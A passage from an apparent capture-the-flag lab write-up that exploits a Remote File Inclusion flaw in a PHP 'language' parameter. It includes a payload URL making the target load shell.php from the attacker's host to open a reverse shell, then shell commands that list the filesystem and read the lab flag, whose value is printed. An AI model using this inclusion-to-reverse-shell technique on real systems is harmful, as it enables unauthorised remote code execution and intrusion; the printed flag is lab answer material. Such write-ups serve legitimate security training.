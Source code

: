 As seen, the page got included, this means this site is indeed vulnerable to `RFI`, let's try sending a reverse shell:


```
http://IP:PORTindex.php?language=http://IP:PORT/shell.php
```

Make sure to have the listener ready, once we execute the command, we get the following:

![Pasted image 20250218152111.png](../../../../IMAGES/Pasted%20image%2020250218152111.png)

We got a reverse shell, way easier to move around rather than a webshell, let's look for our flag:

```
$ ls /
bin
boot
dev
etc
exercise
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```

We found a `/exercise` directory, inside of this directory, we find `flag.txt`:

```
$ ls /exercise
flag.txt
```

Now, let's read it:

```
$ cat /exercise/flag.txt
99a8fc05f033f2fc0cf9a6f9826f83f4
```

Flag is:

```
99a8fc05f033f2fc0cf9a6f9826f83f4
```

